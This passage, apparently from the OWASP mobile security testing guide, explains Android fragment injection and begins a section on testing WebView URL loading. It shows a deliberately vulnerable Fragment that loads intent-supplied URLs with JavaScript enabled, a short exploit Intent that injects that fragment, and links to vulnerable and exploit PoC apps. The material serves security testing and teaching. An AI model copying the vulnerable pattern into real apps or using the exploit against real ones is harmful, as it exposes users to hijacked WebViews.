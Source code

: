 MyFragment.class
```java
public class MyFragment extends Fragment {
    public void onCreate (Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
        View v = inflater.inflate(R.layout.fragmentLayout, null);
        WebView myWebView = (WebView) wv.findViewById(R.id.webview);
        myWebView.getSettings().setJavaScriptEnabled(true);
        myWebView.loadUrl(this.getActivity().getIntent().getDataString());
        return v;
    }
}
```

To exploit this vulnerable Activity, you can create an application with the following code:
```java
Intent i = new Intent();
i.setFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
i.setClassName("pt.claudio.insecurefragment","pt.claudio.insecurefragment.MainActivity");
i.putExtra(":android:show_fragment","pt.claudio.insecurefragment.MyFragment");
i.setData(Uri.parse("https://security.claudio.pt"));
startActivity(i);
```

The [Vulnerable App](https://github.com/clviper/android-fragment-injection/raw/master/vulnerableapp.apk) and [Exploit PoC App](https://github.com/clviper/android-fragment-injection/blob/master/exploit.apk) are available for downloading.

Reference
 * [owasp-mastg Testing for Fragment Injection (MSTG-PLATFORM-2) Example of Vulnerable App and Exploitation](https://github.com/OWASP/owasp-mastg/blob/v1.5.0/Document/0x05h-Testing-Platform-Interaction.md#example-of-vulnerable-app-and-exploitation)

### Testing for URL Loading in WebViews

WebViews are Android's embedded components which allow your app to open web pages within your application. In addition to mobile apps related threats, WebViews may expose your app to common web threats (e.g. XSS, Open Redirect, etc.).

One of the most important things to do when testing WebViews is to make sure that only trusted content can be loaded in it. Any newly loaded page could be potentially malicious, try to exploit any WebView bindings or try to phish the user. Unless you're developing a browser app, usually you'd like to restrict the pages being loaded to the domain of your app. A good practice is to prevent the user from even having the chance to input any URLs inside WebViews (which is the default on Android) nor navigate outside the trusted domains. Even when navigating on trusted domains there's still the risk that the user might encounter and click on other links to untrustworthy content (e.g. if the page allows for other users to post comments). In addition, some developers might even override some default behavior which can be potentially dangerous for the user. See the Static Analysis section below for more details.

To provide a safer web browsing experience, Android 8.1 (API level 27) introduces the [SafeBrowsing API](https://developers.google.com/safe-browsing/v4), which allows your application to detect URLs that Google has classified as a known threat.
